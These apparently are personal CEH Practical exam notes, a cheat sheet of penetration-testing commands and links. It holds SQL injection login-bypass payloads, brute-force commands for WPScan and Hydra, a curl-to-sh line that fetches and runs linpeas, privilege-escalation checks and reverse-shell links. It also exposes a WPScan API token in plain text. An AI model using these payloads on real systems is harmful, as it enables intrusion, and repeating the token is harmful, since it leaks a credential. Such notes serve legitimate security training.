 sudo su

vi get-stuff.sh

mkdir CEH
cd CEH
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
sudo chmod +x linpeas.sh
sudo apt install stegseek
sudo apt install gobuster
sudo apt install enum4linux
sudo apt install xsltproc
sudo gem install wpscan




## NMAP
sudo nmap -O -T5 -sV -sC -oA nmap_$ip1_out_all -vv $ip1/24
sudo xsltproc nmap_out_all.xml nmap_$ip1_out_all.html

cd CEH;mkdir $ip;cd $ip;sudo nmap -O -T5 -sV -sC -oA nmap_$ip\_out -vv $ip/24;sudo xsltproc nmap_$ip\_out.xml -o nmap_$ip\_out.html;

### All ports
sudo nmap -O -T5 -sV -sC -p- -oA nmap_$ip\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\_out_all.xml -o nmap_$ip\_out_all.html;



### Quick Host Discovery
sudo nmap -O -T5 -sn $ip/24 
sudo nmap -O -T5 -sn -PR $ip/24                   (-PR ARP requests)

nmap -p 3389 --script rdp-ntlm-info <target>




## GoBuster
sudo gobuster dir  -w /usr/share/wordlists/rockyou.txt -u http://$ip

## SQLi
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u “url" --cookie="cookie" --dbs


##Steganography
sudo stegseek -wl /usr/share/wordlists/rockyou.txt -sf filename

snow.exe -C -p “password” stegfile.txt

## Enum4Linux
sudo enum4linux -U -o $ip

## WPScan (https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

### Known vulns
wpscan -e vp,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### All vulns:
wpscan -e ap,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### Password Bruteforce
wpscan -e u --passwords /path/to/password_file.txt  --url <example.com>
##Linpeas Winpeas also exists apparently
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh -a > /tmp/linpeas.txt

## Hydra
hydra -l <username> -P given_wordlist ftp://$ip
https://github.com/frizb/Hydra-Cheatsheet

## Find Domain Controller
https://serverfault.com/questions/78089/find-name-of-active-directory-domain-controller
### Find FDQN
https://www.google.com/search?q=determine+FDQN+of+remote+domain+controller&client=firefox-b-d&sca_esv=a7c8b91352f94de3&sxsrf=ADLYWIKttXggW1UFvbeJvw7jxaG1ZFa0Qg%3A1732694251615&ei=69BGZ8inJcmO4-EP0t3G8Qo&ved=0ahUKEwiIyfyKhfyJAxVJxzgGHdKuMa4Q4dUDCA8&uact=5&oq=determine+FDQN+of+remote+domain+controller&gs_lp=Egxnd3Mtd2l6LXNlcnAiKmRldGVybWluZSBGRFFOIG9mIHJlbW90ZSBkb21haW4gY29udHJvbGxlcjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCkjbEFCvBVj9CnABeAGQAQCYAb0CoAHXCqoBBzAuNi4wLjG4AQPIAQD4AQGYAgKgApwBwgIKEAAYsAMY1gQYR5gDAOIDBRIBMSBAiAYBkAYIkgcDMS4xoAfbOA&sclient=gws-wiz-serp


### Entropy of ELF
https://github.com/sandflysecurity/sandfly-entropyscan
Entry point for ELF: readelf -a executable_name



UNIX command exploits: GTFOBins
CEH exercise: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/system-hacking/tasks.md


Check all suid bit programs (find / -perm -u=s -type f 2>/dev/null)
python -c import pty;pty.spawn("/bin/bash")

General Check: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
General Check 2: https://github.com/cmuppin/CEH/tree/main/
General Check 3: https://book.hacktricks.xyz/
General Check 4: https://github.com/infovault-Ytube/CEH-Practical-Notes


Reverse Shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		https://github.com/pentestmonkey/php-reverse-shell


Wpscan API key: j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ

Android: https://github.com/cmuppin/CEH/blob/main/Android
	https://attack.mitre.org/matrices/mobile/android/

Check Service vuln: https://www.cvedetails.com/

Metasploit Priv Esc: run post/multi/recon/local_exploit_suggester

CEH Notes: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/cloud-computing/tasks.md

OWASP CheatSheet: https://cheatsheetseries.owasp.org/cheatsheets/


TOOLS:
Nmap/zenmap
Metasploit
Searchsploit
Hydra
Aircrack-ng
Veracrypt
Theef RAT
BCTextEncoder
StegHide
Adb
John the ripper
Wireshark
Phonesploit
Sqlmap
ZAP
Open Stego
Detect It Easy (DIE)
Openvas
Smbclient
SSH
Crackstation
Hashes.com
Cyberchef
emn178.github.io/online-tools/crc32_checksum.html
